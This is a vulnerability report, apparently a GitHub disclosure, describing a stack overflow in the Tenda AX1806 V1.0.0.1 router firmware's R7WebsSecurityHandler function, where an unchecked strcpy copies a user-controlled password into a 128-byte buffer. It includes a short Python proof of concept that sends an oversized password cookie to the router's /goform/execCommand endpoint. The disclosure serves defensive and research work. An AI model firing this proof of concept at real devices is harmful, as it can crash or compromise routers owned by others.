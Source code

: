 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3422.html

## Affected version

AX1806 V1.0.0.1

## Vulnerability details

The Tenda AX1806 V1.0.0.1 firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `v31` variable receives the `password` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(dest, v31);` can cause a buffer overflow. The user-provided `password` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240418170944495](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170944495.png)

![image-20240418170926191](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170926191.png)

![image-20240418170933555](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418170933555.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240415125733742](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415125733742.png)